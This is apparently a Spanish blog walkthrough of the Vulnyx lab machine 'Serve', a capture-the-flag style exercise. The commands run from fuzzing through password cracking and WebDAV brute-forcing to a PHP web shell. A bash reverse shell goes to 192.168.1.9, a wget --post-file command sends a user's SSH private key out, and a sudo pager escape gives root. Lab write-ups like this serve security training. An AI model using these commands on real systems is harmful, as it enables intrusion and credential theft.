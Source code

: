 ```yaml
---
layout: post
title: "Serve"
date: 2024-04-16 11:20:23
category: sample
vm: vulnyx
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Serve </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link OVA:</strong><a href="https://vulnyx.com/#serve"> Vulnyx</a></td> </tr>
</table>

<br>

![serve](/notas/public/img/vulnyx/serve/serve_pc.png){:.margin}

**1\.** Verificamos dispositivos en la red.

`sudo arp-scan -I enp2s0 --localnet`

![serve](/notas/public/img/vulnyx/serve/arp-scan.png){:.margin}


**2\.** Escanemos puertos abiertos en el host objetivo.

`sudo nmap -p -sS -sCV --open --min-rate=5000 -n -Pn 192.168.1.12 -oN report_scan`

![serve](/notas/public/img/vulnyx/serve/nmap.png){:.margin}

**3\.** Visitando el servicio apache, no tenemos nada importante.

`http://192.168.1.12`

![serve](/notas/public/img/vulnyx/serve/80.png){:.margin}

**4\.** Fuzzeamos en busca de directorios.

`gobuster dir -u http://191.168.1.12/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`

![serve](/notas/public/img/vulnyx/serve/gobuster.png){:.margin}

- Vistamos la primera ruta y nos dice que no tenemos permisos.

`http://192.168.1.12/javascript/`

- En la segunda ruta tampoco se ve nada importante.

`http://192.168.1.12/secrets/`

- En el tercer directorio, tenemos un panel login, pero no tenemos credenciales.

`http://192.168.1.12/webdav/`

![serve](/notas/public/img/vulnyx/serve/webdav.png){:.margin}

**5\.** Seguimos fuzzeando, ahora contemplamos la busqueda de ficheros.

`gobuster dir -u http://192.168.1.12/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt`

![serve](/notas/public/img/vulnyx/serve/gobuster_files.png){:.margin}

**6\.** Revisamos el fichero notes haber que nos muestra.

`http://192.168.1.12/notes.txt`

![serve](/notas/public/img/vulnyx/serve/notes_txt.png){:.margin}

**7\.** Fuzzeamos el directorio secret, tambien contemplamos ficheros kdbx.

`gobuster dir -u http://192.168.1.12/secrets/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt,kdbx`

![serve](/notas/public/img/vulnyx/serve/kdbx.png){:.margin}

**8\.** Nos descargamos el fichero db.kdbx visitando a esta url.

`http://192.168.1.12/secrets/db.kdbx`

**9\.** Creamos un hash que represente la contraseña del fichero.

`ls`

`keepass2john db.kdbx > kepass.txt`

![serve](/notas/public/img/vulnyx/serve/keepass2john.png){:.margin}

**10\.** Aplicamos bruteforce al hash para obtener la contraseña. 

`john --wordlist=/usr/share/wordlists/rockyou.txt kepass.txt`

![serve](/notas/public/img/vulnyx/serve/john.png){:.margin}

**11\.** Abrimos keepass y asu vez abrimos la base de datos db.kdbx .

-   pasos para tener keepass:

```
    https://keepassxc.org/
    chmod +x KeePassXC-2.7.7-x86_64.AppImage
    ./KeePassXc-2.7.7-x86_64.AppImage & disown
```

![serve](/notas/public/img/vulnyx/serve/open_keepass.png){:.margin}

**12\.** Abrimos la nota, tenemos credenciales para webdav. 

![serve](/notas/public/img/vulnyx/serve/open_admin.png){:.margin}

_- No sabemos el numero de empleado para reemplazar las X._
![serve](/notas/public/img/vulnyx/serve/keepass_show_cred.png){:.margin}

**13\.** Creamos un diccionario reemplazando cada X por un numero.

`crunch 9 9 -t w3bd4v%%% -o dict.txt`

![serve](/notas/public/img/vulnyx/serve/crunch.png){:.margin}

**14\.** Usamos hydra para bruteforcear el panel login de webdav.

`hydra -l admin -P dict.txt -f 192.168.1.12 http-get /webdav`

![serve](/notas/public/img/vulnyx/serve/hydra.png){:.margin}

_- Ya con credenciales accedemos a webdav; está vacio._

![serve](/notas/public/img/vulnyx/serve/log_webdav.png){:.margin}

**15\.** Creamos un archivo para mediante un parámetro en la url poder ejecutar comandos.

`echo "<?php system($_GET['cmd']);?>" > cmd.php`

![serve](/notas/public/img/vulnyx/serve/echo.png){:.margin}

**16\.** Lo subimos al servidor apache.

`curl --digest --user 'admin:w3bd4v513' -T 'cmd.php' 'http://192.168.1.12/webdav/'`

![serve](/notas/public/img/vulnyx/serve/curl.png){:.margin}

**17\.** Probamos si funciona ejecutando un comando al azar.

`http://102.168.1.12/webdav/cmd.php?cmd=id`

![serve](/notas/public/img/vulnyx/serve/id.png){:.margin}

**18\.** Nos ponemos en escucha en en puerto.

`sudo nc -nlvp 443`

![serve](/notas/public/img/vulnyx/serve/nc.png){:.margin}

**19\.** Nos enviamos una reverse-shell a nuestro nc.

`http://192.168.1.12/webdav/cmd.php?cmd=bash -c "bash -i>%26/dev/tcp/192.168.1.9/443 0>%261"`

![serve](/notas/public/img/vulnyx/serve/reverse_shell.png){:.margin}

_- Obtenemos la conexión a la máquina:_

![serve](/notas/public/img/vulnyx/serve/connected_nc.png){:.margin}

**20\.** Revisamos permisos sudo disponibles.

`sudo -l`

![serve](/notas/public/img/vulnyx/serve/sudo_l.png){:.margin}

**21\.** Nos ponemos en escucha en otro puerto, y usando wget nos enviamos el contenido del idrsa del usuario teo.

`sudo -u teo /usr/bin/wget --post-file=/home/teo/.ssh/id_rsa 192.168.1.9:4444`

![serve](/notas/public/img/vulnyx/serve/idrsa_nc.png){:.margin}

**22\.** Copiamos y guardamos la idrsa en un fichero.

`nano id_rsa`

![serve](/notas/public/img/vulnyx/serve/nano_idrsa.png){:.margin}

**23\.** Utilizamos [RSAcrack](https://github.com/d4t4s3c/RSAcrack) para crackear la contraseña.

`RSAcrack -w /usr/share/wordlists/rockyou.txt -k id_rsa`

![serve](/notas/public/img/vulnyx/serve/rsacrack.png){:.margin}

**24\.** Ahora accedemos por ssh como el usuario teo proporcionando la contraseña obtenida.

`ssh -i id_rsa teo@192.168.1.12`

![serve](/notas/public/img/vulnyx/serve/ssh.png){:.margin}

**25\.** Revisamos permisos sudo del usuario, vemos que podemos ejecutar el binario 'bro' como root.

`sudo -l`

![serve](/notas/public/img/vulnyx/serve/teo_sudo_l.png){:.margin}

**26\.** Si ejecutamos este binario, nos dice que ejecutemos como 'bro curl'.

`sudo bro`

![serve](/notas/public/img/vulnyx/serve/bro.png){:.margin}

**27\.** Una vez ejecutado, al final(:) nos lanzamos una bash. 

`!/bin/bash`

![serve](/notas/public/img/vulnyx/serve/sudo_bro_puntos.png)
![serve](/notas/public/img/vulnyx/serve/sudo_bro_bash.png)

**28\.** Ya logrado el super-usuario en la máquina, finalizamos obteniendo la flag de root. 

`cat /root/root.txt`

![serve](/notas/public/img/vulnyx/serve/flag.png)

<br>

<a href="#">_Finalizado._</a>
